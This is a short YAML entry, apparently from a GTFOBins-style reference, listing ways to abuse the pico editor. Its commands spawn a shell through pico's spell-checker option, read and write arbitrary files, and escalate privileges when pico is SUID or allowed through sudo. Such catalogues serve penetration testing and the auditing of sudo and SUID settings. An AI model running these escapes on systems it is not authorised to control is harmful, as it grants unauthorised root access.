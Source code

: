 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid-enabled:
    - code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

